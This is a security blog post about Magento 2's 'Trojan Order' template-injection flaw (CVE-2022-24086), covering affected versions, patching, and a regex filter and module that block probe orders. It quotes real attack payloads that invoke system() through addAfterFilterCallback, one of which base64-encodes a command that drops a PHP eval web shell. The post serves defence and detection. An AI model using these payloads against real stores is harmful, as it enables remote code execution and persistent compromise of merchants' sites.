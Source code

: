 ```yaml
---
title: "Trojan Order (CVE-2022-24086) - addAfterFilterCallback Orders"
description: "Magento 2 Trojan Orders (CVE-2022-24086) are back, lets talk about how to patch so we are safe. And other identifiers aside from addAfterFilterCallback"
date: 2024-08-16T11:30:00+00:00
tags: ["magento2", "security", "devsecops", "magento-cloud", "adobe-commerce"]
author: "Me"
draft: false
banner_image: "trojan-order.jpg"
banner_image_alt: "Trojan Horse"
---
```


So it appears the Magento 2 Trojan order exploit (CVE-2022-24086) is making the rounds again. With the recent rise in exploit attempts I am going to go out on a whim, and assume the exploit kit was recently sold/released again. Trojan Order was identified and patched back at the start of 2022.

The relevant security Bulletin is APSB22-12. It states versions 2.3.0 to 2.3.3 are not affected but any other versions below 2.4.3-p1 and 2.3.7-p2 are. https://helpx.adobe.com/security/products/magento/apsb22-12.html


## What is a Trojan Order / How do we know if we are affected?

Typically in most requests I have seen, a common function they all use is `addAfterFilterCallback`. I've listed some examples below. Note, if a strange looking order comes in and its missing the `addAfterFilterCallback`. That does NOT mean its not a probe.

```
{{var this.getTemplateFilter().filter(dummy) }}{{var this.getTemplateFilter().addAfterFilterCallback(base64_decode).addAfterFilterCallback(system)filter(bHMgLWFs3001 W OLD YANKTON RD)}},

{{var this.getTemplateFilter().filter(foobar)}}{{var this.getTemplateFilter().addAfterFilterCallback(system).filter(pwd)}}

{{var this.getTemplateFilter().filter(dummy) }}{{var this.getTemplateFilter().addAfterFilterCallback(base64_decode).addAfterFilterCallback(system)filter(bHMgLWFs 3001 W OLD YANKTON RD )}}, California, 94123 United States

if this.getTemplateFilter().filter(dummy)/if errorif this.getTemplateFilter().addAfterFilterCallback(base64_decode).addAfterFilterCallback(system).Filter(Y2QgcHViO2VjaG8gJzw/cGhwIGVjaG8gIk9LIjtAZXZhbChiYXNlNjRfZGVjb2RlKCRfUE9TVFsicXdxIl0pKTsgJyA+IGhlYWx0aF9jaGVjay5waHA=)m/if
```

## How do we patch Trojan Orders?
Ensure you are one a version of Magento between 2.3.0 to 2.3.3 or newer than 2.4.3-p1 and 2.3.7-p2. Although I would recommend if you behind, to update to the latest release. As there will be a bunch of other vulnerabilities with your installation.

## Trojan orders are still coming through despite being patched
The Magento patch, resolves the vulnerability that trojan orders was exploiting. But it does not attempt to stop the orders being placed. So some merchants are ending up with a large amount of unactionable probe orders in the admin panel.

Currently there are two leading solutions to stop this, the quick and dirty way by [Sansec](https://sansec.io). And the more concrete way by [DeployEcommerce](https://github.com/DeployEcommerce/).

### Quick and Dirty
In the original write up on [Trojan Orders by Sansec](https://sansec.io/research/trojanorder-magento), they include a emergency fix towards the bottom, which involves adding a single if conditions to the top of the `bootstrap.php` file. (NB. They include similar emergency fixes in a fair few of their research posts around new vulnerabilities)

As usual from Sansec, their fix involves doing a regex match on stdin and returning a 503 error.
(Note: Maybe a `stripos` call would be a bit more performant here?).

It is really simple to add and does not require any downtime to apply, which is great. Simply, you just edit `app/bootstrap.php` and add the following code block at the very top.
```php
if(preg_match('/addafterfiltercallback/si', preg_replace("/[^A-Za-z]/", '', urldecode(urldecode(file_get_contents("php://input")))))) {
    header('HTTP/1.1 503 Service Temporarily Unavailable');
    header('Status: 503 Service Temporarily Unavailable');
    exit;
}
```

### Concrete
Whilst the quick and dirty solution is great and easy to implement. It is running on every request, REST, GraphQL, Admin, PDP, PLP etc etc Which is a waste since we are not particularly worried about this exploit on a CMS page view.

So DeployEcommerce have release a [Standalone module](https://github.com/DeployEcommerce/module-trojan-order-prevent) targeted at helping stop Trojan Orders, which has a fair bit of moment behind it. Its purpose to to identify and drop these probe orders via a plugin around the Shipping and Billing address management interfaces.

Getting this live, is a simple module install and deploy procedure.
